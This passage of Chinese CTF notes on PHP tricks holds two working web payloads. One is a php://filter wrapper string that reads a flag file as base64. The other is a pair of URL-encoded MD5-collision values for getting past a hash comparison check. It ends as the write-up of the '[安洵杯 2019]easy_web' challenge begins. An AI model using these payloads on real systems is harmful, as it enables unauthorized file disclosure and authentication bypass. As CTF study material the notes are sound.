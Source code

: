 直接伪协议读，要求有index在之前读index.php的payload里加，加在前后都可

php://filter/read=index/convert.base64-encode/resource=flag

### md5碰撞

- a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
- b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

ps：在hackbar中会url编码，直接用burp

### ****[安洵杯 2019]easy_web****

抓包看到了img参数感觉像是base64

![Untitled](PHP%20Trick%2085f5b3dc12ee4d0f8917c3ff2a2f5a7e/Untitled%208.png)
